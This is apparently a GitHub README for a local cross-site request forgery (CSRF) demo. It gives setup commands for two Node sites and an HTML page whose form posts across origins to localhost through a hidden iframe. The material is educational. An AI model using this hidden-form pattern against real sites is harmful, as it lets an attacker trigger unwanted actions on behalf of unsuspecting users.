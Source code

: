 ## csrf demo
- realize the CSRF attack.

### start server
```shell
# start dangerous site
cd csrf-demo/dangerous_site
npm install
node ./bin/www

# start trusted site
cd ../trusted_site
npm install
node ./bin/www

```

### test

- access dangerous site : http://localhost:3000/csrf.html

csrf.html
```html

<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>Document</title>
	<style>
		iframe{
			height:0;
			visibility: hidden;
		}
	</style>
</head>
<body>
	<p>form表单 发送请求没有跨域限制， 可以向任意站点发送post请求</p>
	<form method="post" action="http://localhost:4000/users/csrf" enctype="application/x-www-form-urlencoded" target="iframeName">
		<label for="cntname">name: </label>
		<input type="text" name="name" id="cntname" />
		
		<input type="submit" value="upload" id="_submit" />
	</form>

	<iframe id="iframeId" name="iframeName"></iframe>

	<script>
		
	</script>

</body>
</html>

```

- input something and submit
- then go to the console of trusted site, you can find the form request.
- this result indicates that we can send cross origin request by using form. 
- add iframe element to not redirect.